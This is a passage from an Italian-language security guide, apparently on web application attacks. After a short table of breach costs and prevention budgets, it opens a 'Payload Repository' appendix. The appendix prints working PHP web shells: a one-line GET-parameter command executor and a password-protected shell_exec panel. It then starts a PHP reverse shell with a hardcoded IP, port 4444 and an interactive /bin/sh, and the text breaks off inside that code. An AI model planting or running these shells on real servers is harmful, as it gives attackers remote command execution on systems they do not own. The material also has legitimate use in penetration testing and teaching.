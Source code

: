 **Potential Damage Costs**:
- **Data breach**: €50K - €20M (dipende da scala e settore)
- **Downtime**: €5K - €100K per ora per organizzazioni enterprise
- **Reputation damage**: Perdita di customer trust quantificabile in anni
- **Legal costs**: €100K - €1M per incident response legale

**Prevention Investment**:
- **Secure development training**: €10K - €50K annuale per team
- **Security tools e scanning**: €20K - €100K annuale
- **Code review e penetration testing**: €30K - €150K annuale
- **ROI**: Tipicamente 300-500% su investimenti in security proattiva

---

## Appendici Tecniche

### Appendice A: Payload Repository

**Web Shells PHP Testate**:
```php
// Minimal PHP Web Shell
<?php if(isset($_GET['c'])){echo`{$_GET['c']}`;}?>

// Advanced Web Shell con features
<?php
session_start();
if(isset($_POST['pass']) && $_POST['pass'] == 'test123') {
    $_SESSION['auth'] = true;
}

if($_SESSION['auth'] !== true) {
    echo '<form method="post">Password: <input type="password" name="pass"><input type="submit" value="Login"></form>';
    exit;
}

if(isset($_GET['cmd'])) {
    echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
}

echo '<form>Command: <input name="cmd" type="text"><input type="submit" value="Execute"></form>';
?>

// Reverse Shell PHP
<?php
set_time_limit(0);
$ip = '192.168.1.50';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    if ($pid) {
        exit(0);
    }
```